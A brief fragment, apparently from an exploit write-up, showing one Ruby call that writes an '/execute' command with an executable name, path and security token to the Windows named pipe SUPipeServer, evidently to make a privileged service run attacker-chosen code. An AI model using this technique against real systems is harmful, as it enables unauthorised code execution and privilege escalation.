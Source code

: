 And here is a example how this function is called:

```ruby
write_named_pipe("\\\\.\\pipe\\SUPipeServer", "/execute #{exe_name} /arguments /directory #{write_path} /type COMMAND /securitycode #{token}")
``
